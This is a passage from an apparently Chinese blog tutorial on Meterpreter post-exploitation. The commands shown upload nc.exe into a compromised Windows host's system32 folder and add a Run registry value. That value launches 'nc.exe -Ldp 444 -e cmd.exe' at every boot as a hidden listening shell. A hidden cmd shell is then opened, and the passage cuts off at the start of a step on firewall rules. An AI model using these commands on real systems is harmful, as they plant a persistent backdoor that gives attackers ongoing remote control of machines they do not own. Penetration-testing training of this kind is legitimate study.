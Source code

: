 参数说明：-f为执行的程序 -i打开对话命令交互，-t 以当前的token执行程序。

#### <a id="_328"/>注册表操作

注册表<br/>
<img src="https://img-blog.csdnimg.cn/20200722170325310.png" alt=""/><br/>
例如：<br/>
已经拿到了目标主机的merterpreter的权限，我们通过修改注册表，使得每次目标主机开机的时候都会运行我们上传到目标主机的nc.exe，方便对目标主机进行监控。<br/>
1.上传nc.exe到目标主机

```
 upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32   //传送到了系统目录下

```

2.查看注册表中默认跟随主机启动的内容

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run  //reg 是merterpreter中专门查看修改注册表的命令

```

<img src="https://img-blog.csdnimg.cn/20200722174602563.png" alt=""/><br/>
3.添加一个键值

```
 reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe'   
 //setval参数为添加或者修改某个键值
 // -Ldp L参数为侦听，d表示在后台，p表示为端口
 // 合起来就是在注册表的未知添加键值，内容是执行目录下的nc.exe,后台打开cmd.exe，监听444端口，等待连接。

```

执行成功后查看插入成功。<br/>
<img src="https://img-blog.csdnimg.cn/20200722180604531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/><br/>
也可以用如下命令

```
 reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
 // queryval为查询

```

<img src="https://img-blog.csdnimg.cn/2020072218150985.png" alt=""/>

##### <a id="_362"/>添加一条防火墙策略

首先进入命令提示符

```
execute -f cmd -i -H   //隐蔽的方式打开shell

```

